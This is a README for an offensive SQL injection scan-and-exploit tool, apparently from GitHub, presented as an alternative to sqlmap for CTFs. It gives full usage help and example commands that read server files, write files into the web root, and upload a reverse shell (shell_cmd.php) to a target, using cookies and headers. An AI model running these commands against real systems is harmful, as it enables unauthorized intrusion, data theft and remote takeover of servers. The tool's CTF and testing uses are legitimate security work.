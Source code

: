 # sql_injection
A sql injection scan and exploit script

This script can be used if you can't use sqlmap, or for any restriction like wih some ctfs.

It scan if a parameter is injectable , and also find how to exploit it.

## Functions:

##### . Scan
##### . Found an injection
##### . Read a file from the DBMS
##### . Write a file into the DBMS
##### . Upload a reverse shell into the DBMS 


## Use

```
usage: sql_injection [-h] --data DATA [-m METHOD] [--file-dest REMOTEPAH]
                     [--file-write LOCALPATH] [--file-read PATHTOREAD]
                     [--upload-revshell REVSHELLPATH] [-H HEADER] [-c COOKIES]
                     -u URL -p PARAMETER [-l LEVEL] [-v VERBOSE]

A sql injection scan and exploit script

optional arguments:
  -h, --help            show this help message and exit
  --data DATA           Data string to be sent through POST/GET Like
                        "category=2&productId=1&productName=name"
  -m METHOD, --method METHOD
                        Htp method to use for injection, set to POST by
                        default
  --file-dest REMOTEPAH
                        Back-end DBMS absolute filepath to write to
  --file-write LOCALPATH
                        Write a local file on the back-end DBMS file system
  --file-read PATHTOREAD
                        Read a local file on the back-end DBMS file system
  --upload-revshell REVSHELLPATH
                        Upload a rev shell in the host. The script verify if
                        rev-shell is accessible from outside
  -H HEADER             One or multiple header for the request, separate with
                        a space Use like 'key1:value1 key2:value2'
  -c COOKIES, --cookies COOKIES
                        One or multiple cookies values for the request,
                        separate with a space Use like 'PHPSESSID=shuv7rnuv
                        UserToken=yes'
  -u URL, --url URL     The url to use for sqli
  -p PARAMETER, --parameter PARAMETER
                        The injectable parameter
  -l LEVEL, --level LEVEL
                        The level of the scan (l|h) "l" for little, and "h"
                        for huge
  -v VERBOSE, --verbose VERBOSE
                        Define verbose output. set to False by default
```

## Examples

#### Found an injection

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId 
```

#### Read a file from the DBMS

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId   --file-read "C:/Inetpub/wwwroot/view_product.php"
```

#### Write a file into the DBMS

```
$ sql_injection -u http://host/view_product.php -H "Agent:roughiz" --data "productId=1" -p productId   --file-write /tmp/output.txt --file-dest "/InetPub/wwwroot/test.txt"
```

#### Upload a reverse shell into the DBMS 

```
$ sql_injection -u http://10.10.10.10:8080/complain/view.php -m GET -H "Agent:roughiz" --data "mod=admin&view=repod&id=plans" -p id  --cookie "PHPSESSID=9cc97jn016e2naklhp4rnj64j0"  --upload-revshell shell_cmd.php  -v 1
```

